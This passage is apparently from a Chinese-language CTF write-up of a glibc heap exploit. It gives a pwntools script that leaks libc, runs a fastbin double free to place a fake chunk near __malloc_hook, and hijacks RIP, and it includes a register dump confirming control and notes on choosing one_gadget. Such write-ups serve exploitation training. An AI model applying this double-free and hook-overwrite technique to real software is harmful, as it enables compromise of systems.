 ```python
add     = lambda len,name,color :  (sla("choice : ","1"),sla("name :",str(len)),sla("flower :",name),sla("flower :",color))
show    = lambda                :  (sla("choice : ","2"))
rm      = lambda num            :  (sla("choice : ","3"),sla("garden:",str(num)))
clear   = lambda                :  (sla("choice : ","4"))


add(500,"1","1")
add(0x28,'2','2')
add(10,'3','3')
rm(0);rm(1)
add(500,"","4")
show();io.recvuntil("flower[3] :")
libc_addr = uu64(io.recv(6))-0x3c3b0a
malloc_hook = libc_addr + libc.symbols['__malloc_hook']

fake_chunk = malloc_hook-0x23
add(104,'1','1')
add(104,'1','1')
rm(4);rm(5);rm(4)
add(104,p64(fake_chunk),'1')
add(104,'1','1')
add(104,'1','1')
add(104,'a'*19+p64(0xdeadbeef),'1')
debug(0x107b,"x /200bx "+hex(libc_addr+libc.symbols['__malloc_hook']-0x50))
add(10,'1','1')
io.interactive()
```

成功劫持控制流到0xdeadbeef：

```bash
$rax   : 0xdeadbeef        
$rbx   : 0x00007fff0a963930  →  0x0000555a3e3f0a31 ("1\n?>ZU"?)
$rcx   : 0xffffffda        
$rdx   : 0x0               
$rsp   : 0x00007fff0a9638f8  →  0x0000555a3e3fdc6a  →   mov rbx, rax
$rbp   : 0x0000555a3e3fe408  →   repz cld
$rsi   : 0x0000555a3e3fdc6a  →   mov rbx, rax
$rdi   : 0x28              
$rip   : 0xdeadbeef        
$r8    : 0x0               
$r9    : 0x1999999999999999
$r10   : 0x0               
$r11   : 0x00007f6f957b2a00  →  0x0002000200020002
$r12   : 0x0000555a3e3fe2a2  →  "Invalid choice"
$r13   : 0x00007fff0a963a30  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0   
```

因为只能去修改__malloc_hook，而malloc函数的参数一般为数值，所以如果基本无法利用system函数，将数值利用成字符串地址，因为一旦有小数值就会产生非法地址访问。最终还是只能选择one_gadget。
